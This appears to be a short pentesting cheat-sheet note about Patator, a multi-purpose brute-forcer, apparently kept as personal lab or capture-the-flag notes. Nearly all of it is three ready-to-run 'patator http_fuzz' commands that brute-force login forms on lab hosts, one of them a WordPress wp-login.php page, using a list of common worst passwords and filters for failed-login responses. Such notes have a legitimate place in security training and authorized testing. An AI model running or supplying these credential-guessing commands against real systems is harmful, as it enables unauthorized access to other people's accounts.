 ```yaml
---
tags:
  - Post-Exploitation
  - Cryptography
  - HashesAndEncryption
  - Tooling
---
```

Patator is a multi-purpose brute-forcer, with a modular design and a flexible usage.

# Commands

* `patator http_fuzz url=http://192.168.68.106/login method=POST body='{"username":"COMBO00","password":"COMBO01"}' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt  accept_cookie=1 follow=1 max_follow=2 -x ignore:fgrep='Unauthorized' header ='Content-Type: application/json'`
* `patator http_fuzz url=http://loly.lc/wordpress/wp-login.php method=POST body='log=loly&pwd=FILE0&wp-submit=Log+In&redirect_to=&testcookie=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt -x ignore:fgrep=Error`
* `patator http_fuzz url=https://172.16.10.248:8081/lib/crud/userprocess.php method=POST body='user=admin&pass=COMBO00&sublogin=1' 0=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt after_urls=https://172.16.10.248:8081/dashboard.php accept_cookie=1 follow=1 max_follow=2 -x ignore:clen=5878`

